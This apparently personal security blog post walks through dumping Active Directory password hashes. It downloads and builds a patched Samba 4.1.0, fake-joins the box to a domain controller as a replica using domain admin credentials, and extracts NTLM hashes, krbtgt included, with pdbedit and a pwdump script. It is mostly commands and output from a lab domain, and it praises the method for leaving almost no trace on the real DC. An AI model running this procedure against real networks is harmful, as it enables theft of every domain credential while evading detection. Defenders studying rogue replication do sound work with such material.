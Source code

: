 = Dumping NTDS.dit domain hashes using Samba
:hp-tags: samba, ntds, passwords

So there was this blog post that talking about a number of ways to dump windows credentials by [@lanjelot](https://twitter.com/lanjelot) [definitly someone to follow] - here: https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/ and at the very bottom of this post it says "**AD Replication (EXPERIMENTAL)**"

What it boils down to is if you can position a system that can do DNS resolution to the target domain, and perform some other UDP traffic, you can fake join a samba server you control to a domain and it **_doesn't require code execution in any way on the domain controller_**.

Notice: I am not doing this on a Kali Linux box, there is already an install of Samba there and I didn't want to try uninstalling or modifying the one installed.

First, you need this patch:

`wget http://files.securusglobal.com/samba-4.1.0_replication-only-patch.txt`

and Samba 4.1.0

`wget http://ftp.samba.org/pub/samba/stable/samba-4.1.0.tar.gz`

You will probably also require some dependencies to be installed:

`apt-get install python2.7-dev python-samba libacl1-dev build-essential libldap2-dev libkrb5-dev attr`

Since the patch is kinda wonky, you need to make a `src` directory and extract samba into there first. Then apply the patch in whatever directory is above src

```
mkdir src
mv samba-4.1.0.tar.gz src/
cd src/
tar zxvf samba-4.1.0.tar.gz
cd /root/
```

So it would look like this:
```
samba-4.1.0_replication-only-patch.txt
src/
src/samba-4.1.0/
```
then run `patch -p0 < samba-4.1.0_replication-only-patch.txt`

```
cd ./src/samba-4.1.0/
./configure
make
make install
```
Prepare the box:
```
rm -rf /var/lib/samba; mkdir /var/lib/samba; rm -f /etc/samba/smb.conf
```
Next you need to make sure you are resolving correctly (if you can't resolve the SRV record `_ldap._tcp.sittingduck.info` (sittingduck.info being the domain) then this isn't going to work.
```
echo nameserver 192.168.92.37 > /etc/resolv.conf # this is the IP address of the DC
```

Then start the clone:
```
/usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
```

Looks like this:
```
root@sambabox:~/src/samba-4.1.0# /usr/local/samba/bin/samba-tool domain join sittingduck.info DC -U sittingduck\\administrator
Finding a writeable DC for domain 'sittingduck.info'
Found DC 2K8DC.sittingduck.info
Password for [SITTINGDUCK\administrator]:
workgroup is SITTINGDUCK
realm is sittingduck.info
Calling bare provision
No IPv6 address will be assigned
Provision OK for domain DN DC=sittingduck,DC=info
Starting replication
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Schema-DN[CN=Schema,CN=Configuration,DC=sittingduck,DC=info] objects[1521] linked_values[0]
Analyze and apply schema objects
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[402] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[804] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1206] linked_values[0]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1608] linked_values[1]
Partition[CN=Configuration,DC=sittingduck,DC=info] objects[1614] linked_values[11]
Replicating critical objects from the base DN of the domain
Partition[DC=sittingduck,DC=info] objects[100] linked_values[24]
Partition[DC=sittingduck,DC=info] objects[353] linked_values[27]
Done with always replicated NC (base, config, schema)
Committing SAM database
descriptor_sd_propagation_recursive: DC=DomainDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
descriptor_sd_propagation_recursive: DC=ForestDnsZones,DC=sittingduck,DC=info not found under DC=sittingduck,DC=info
Joined domain SITTINGDUCK (SID S-1-5-21-3147519476-3247671789-820278723) as a DC

```

Then to get the hashes:
```
root@sambabox:~# /usr/local/samba/bin/pdbedit -L -w
2K8DC$:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:CB14F1166BBE1749AC0FB40240C5DC30:[S          ]:LCT-530FC425:
Administrator:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[U          ]:LCT-531006A4:
krbtgt:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:F2EE6AB6F40810169E0E46B126CEFBEF:[DU         ]:LCT-530FC3FF:
nobody:65534:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:[U          ]:LCT-00000000:
jdoe:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-530FC5FF:
uber:4294967295:XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX:88E4D9FABAECF3DEC18DD80905521B29:[UX         ]:LCT-53101261:

```

Or you can do it with history:
```
root@sambabox:~# python samba-pwdump.py /usr/local/samba/private/sam.ldb.d/DC\=SITTINGDUCK\,DC\=INFO.ldb -history
SAMBACLONE$:1104:::::
2K8DC$:1000::cb14f1166bbe1749ac0fb40240c5dc30:::
Administrator:500::88e4d9fabaecf3dec18dd80905521b29:::
krbtgt:502::f2ee6ab6f40810169e0e46b126cefbef:::
Guest:501:::::
jdoe:1103::88e4d9fabaecf3dec18dd80905521b29:::
uber:1105::88e4d9fabaecf3dec18dd80905521b29:::
uber_history0:1105:444d1edcad01ae08f49f073e12e8cc14:88e4d9fabaecf3dec18dd80905521b29:::
```


Game over. The great thing is that it never actually shows up as a joined box in the domain, and as far as I can tell the only log on the real DC is the login success of a domain admin. Plus one of the huge benefits to this method is that once you have the database Samba makes it really easy to query information like group membership or users info after the fact, not just hashes.

